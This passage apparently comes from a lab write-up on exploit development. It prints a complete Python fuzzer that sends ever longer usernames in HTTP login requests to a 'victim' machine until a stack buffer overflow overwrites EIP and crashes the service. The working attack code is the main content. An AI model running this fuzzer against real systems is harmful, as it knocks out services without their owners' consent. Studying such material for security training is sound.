

# Discovering The Vulnerability

Here is an example fuzzing script to crash the application via bogus login requests:


```python
#!/usr/bin/python3

import socket
import argparse
import netifaces
import time

#########################################  PARSE ARGUENTS  #########################################

parser=argparse.ArgumentParser()

parser.add_argument('--print_state', '-pS', dest='printMessage', action='store_true', 
                    help="Print status messages about stage of process (Disabled by default)")
# parser.add_argument('--no-print_state', '-nP', dest='printMessage', 
#                     help="Disables printing of state messages",
#                     action='store_false') # Needed to turn off if default is True
parser.set_defaults(printMessage=False)

parser.add_argument('--print_buffer', '-pB', dest='printBuffer', action='store_true', 
                    help="Print copy of buffer sent to victim (Disabled by default)")
parser.set_defaults(printBuffer=False)

parser.add_argument('--ask_before_send', '-c', dest='getConsent', action='store_true', 
                    help="Ask user before sending each request (Disabled by default)")
parser.set_defaults(getConsent=False)


parser.add_argument('--attack_ip', '-a', help="IP of attacking machine (Defaults to 'tun0' address)",
                    type= str, default=netifaces.ifaddresses('tun0')[netifaces.AF_INET][0]['addr'])
parser.add_argument('--victim_ip', '-v', help="IP of victim machine", type= str, required=True)
parser.add_argument('--victim_port', '-p', help="Port on victim machine (Default 80)", type= int, default=80)


parser.add_argument('--max_size', '-m', help="Maximum input buffer size (characters) (Default 2,000)",
                    type= int, default=2000)
parser.add_argument('--buffer_increment', '-i', 
                    help="Increment input buffer increases size by (characters) (Default 100)",
                    type=int, default=100)
parser.add_argument('--sleep_time', '-s',
                    help="Time script will sleep between requests (seconds) (Default 5)",
                    type= int, default=5)


args = parser.parse_args()

attIP = args.attack_ip      # IP of machine launching attack
vicIP = args.victim_ip      # IP of victim (lab) machine
vicPort = args.victim_port  # Port on victim machine
size = 100

if (args.printMessage): 
            print ("\nAttacking IP:\t\t" + attIP)
            print ("Victim IP:\t\t" + vicIP)
            print ("Victim Port:\t\t" + str(vicPort))
            print ("Max Input Buffer:\t" + str(args.max_size) + " characters")
            print ("Input Buffer Increment:\t" + str(args.buffer_increment) + " characters")
            print ("Inter-Request Delay:\t" + str(args.sleep_time) + " seconds")

try:
    while (size <= args.max_size):

        ####################################  CONSENT TO SEND  #####################################

        if (args.getConsent):
            continue_val = input("\nSend buffer of size " + str(size) + " (y/n): ")

            if (continue_val.lower() != "y"):
                print("Exiting")
                break

        if (args.printBuffer or args.printMessage): print ("\nInput Buffer Size:\t" + str(size))


        ####################################  CONSTRUCT BUFFER  ####################################
        
        if (args.printMessage): print ("Constructing buffer")
            
        inputBuffer = "A" * size

        content = "username=" + inputBuffer + "&password=A"

        buffer = "POST /login HTTP/1.1\r\n"
        buffer += "Host: " + vicIP + "\r\n"
        buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
        buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
        buffer += "Accept-Language: en-US,en;q=0.5\r\n"
        buffer += "Referer: http://" + vicIP + "/login\r\n"
        buffer += "Connection: close\r\n"
        buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
        buffer += "Content-Length: "+str(len(content))+"\r\n"
        buffer += "\r\n"

        buffer+=content

        if (args.printBuffer): print ("\n" + buffer)


        ####################################  MAKE CONNECTION  #####################################

        # Construct socket
        s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        if (args.printMessage): print ("Socket object constructed\nAttempting connection")

        # Connect to victim
        s.connect((vicIP, vicPort))
        if (args.printMessage): print ("Connected to victim")

        # Send buffer
        s.send(buffer.encode())
        if (args.printMessage): print ("Buffer sent")

        # Close connection
        s.close()
        if (args.printMessage): print ("Connection closed\nDone")

        size += args.buffer_increment
        time.sleep(args.sleep_time)

except Exception as e:
    print ("Connection failed")
    print ("\n" + str(e) + "\n")

```


This fuzzer incrementally sends larger and larger "login" requests until the stack is eventually overwritten (around buffer size of 800 characters). This results in 41414141 being written to the $EIP register triggering an access violation:

<figure><figcaption></figcaption></figure>
